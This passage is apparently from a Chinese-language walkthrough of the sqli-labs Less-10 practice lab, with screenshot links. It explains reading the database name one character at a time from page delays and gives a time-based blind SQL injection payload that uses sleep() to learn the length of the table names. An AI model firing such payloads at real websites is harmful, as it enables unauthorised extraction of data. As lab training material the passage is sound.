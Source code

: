 ![Less-10_4](./img/Less-10_4.PNG)

页面有延迟，说明数据库名的第一个字符的<code>ASCII</code>值是115，判断数据库名的其他字符可逐一改变参数去判断



+ 逐一判断联合数据表名长度

~~~ shell
?id=1"and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
~~~

![Less-10_5](./img/Less-10_5.PNG)
